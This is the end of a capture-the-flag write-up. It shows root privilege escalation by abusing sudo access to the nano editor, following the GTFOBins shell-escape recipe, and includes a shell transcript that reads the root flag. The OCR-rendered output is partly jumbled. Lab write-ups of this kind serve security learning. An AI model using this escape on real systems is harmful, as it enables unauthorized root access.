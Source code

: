 In fact we can run something, we can use the text editor nano as root on teh file /opt/priv

We go on [https://gtfobins.github.io/gtfobins/nano/](https://gtfobins.github.io/gtfobins/nano/) and read teh section on shell.

```bash
nano
^R^X
reset; sh 1>&0 2>&0
```

There are two ways of doing it from here.

1. We can either use nano on the file then `^R` and then simply type `/root/root.txt` and teh flag pops up.
2. Or we can get a shell by doing the above command involving `reset`.

   ```bash
   Command to execute: reset; sh 1>&0 2>&0# ls                                                                                                                                                                                                
   user.txtelp                                                                                                          ^X Read File
   # cd root                                                                                                            M-F New Buffer
   sh: 2: cd: can't cd to root
   # cd /root
   # ls
   root.txt
   # type root.txt
   root.txt: not found
   # cat root.txt
   2f907ed450b361b2c2bf4e8795d5b561
   ```

   Thanks for reading hope you enjoyed.

